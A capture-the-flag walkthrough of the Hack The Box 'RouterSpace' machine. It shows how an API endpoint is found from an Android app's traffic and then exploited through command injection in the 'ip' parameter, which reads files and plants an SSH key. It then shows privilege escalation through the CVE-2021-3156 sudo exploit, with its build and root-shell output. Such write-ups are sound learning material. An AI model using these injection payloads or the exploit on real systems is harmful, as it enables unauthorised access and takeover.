







# RouterSpace

## Tools

* [Nmap](https://nmap.org/). To discover services that is open on the router.
* [Nox](https://www.bignox.com/). To emulate the Android app provided by the router.
* [WireShark](https://www.wireshark.org/). To capture the information between the Android application with the router. I only use this, because I was not able to use other proxy tools for some reason.
* [Paw](https://paw.cloud/). To play around with the API.
* [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). To find vulnerabilities of the system so I can escalate the privilege.

## Walkthrough

### Knowing the target

To start I run nmap on the target. 

```bash
$  sudo nmap -sS 10.10.11.148
Password:
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-21 09:23 WIB
Nmap scan report for 10.10.11.148
Host is up (0.023s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.86 seconds
```

So there are two ports open on the target. A SSH port and a web port. I take a look at the page and can see the following.



I play around the website for a while. If I put random directory like : `10.10.11.148/admin/` it returns a 200 page with error message. The website seems to have only a single function; to allow user to download `router.apk`. So I download that.

### Installing router.apk

For emulating Android OS, I use Nox. I then install the `router.apk` on the emulator and run the application. 



When I click on the check status I got the router live status message.



At this point, I am looking into a way to intercept the communication between the app with the router. 

### Intercept connection between application and the router

I was not able to setup the proxy to work on Nox. So eventually I use WireShark to try to find the HTTP request. After looking for a bit, I found what I am looking for. 



The endpoint for this API is: `/api/v4/monitoring/router/dev/check/deviceAccess`. 

### Using the API

Once I have the endpoint, I use Paw to play around with the API. The API request only works if I use POST. And I need to set the `User-Agent` to `RouterSpaceAgent` and `Content-Type` to `application/json`. Once I do those things, I can send a POST request.



When I make this call, I will return the same message. So looks like it is an echo. I know that I can list a directory `$ echo /*`. So if I use `/*` as the value for parameter `ip` and run it again.



Yes! I can see a list of directories. I can read files using echo as well. All I need to do is wrap the command in ` ` (backquotes). So I can read file content by supplying the `ip` parameter with "`cat /home/paul/user.txt \`". And I got the content of the user.txt

### Getting the foothold

At this point, I am still unable to login to the system. So I look into several the directories and files. I assume that if the Paul user can login to this system, he must have an `authorized_key` in his `.ssh` folder. But I don't find anything within that folder. So I read the whole `/etc/ssh/sshd_config` just to make sure. And yes, it only allows login via `PubkeyAuthentication`. So, I created a new pair of `ssh` key. I then copy the this file to the router. I copy it by supplying the `ip` parameter with the following value: "`echo {the public key content} > /home/paul/.ssh/authorized_keys`."

Now that I have put my public key, I login to the server. And I got in.

### Privilege escalation

To see if there is a vulnerability with this router, I uploaded `linpeas`. 

```bash
$ `scp -i ~/.ssh/dummy ~/cysec/linpeas/linpeas.sh paul@routerspace.htb:/home/paul/`
```

Once I got linpeas on the server, I run it. As usual `linpeas` returns a lot of information. Part the interest me was:



So I downloaded the CVE-2021-3156 exploit, but alas there is no unzip on the router. I downloaded the exploit again in my local computer and use SCP to upload to the server

```bash
$ `scp -i ~/.ssh/dummy -r ~/Downloads/CVE-2021-3156-main paul@routerspace.htb:/home/paul/
```

Once it is uploaded, I run the exploit.

```bash
paul@routerspace:~/CVE-2021-3156-main$ make
rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
paul@routerspace:~/CVE-2021-3156-main$ ./sudo-hax-me-a-sandwich .

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# ls /root
root.txt
```

And then I can access the root content.

## Source

Hack The Box.
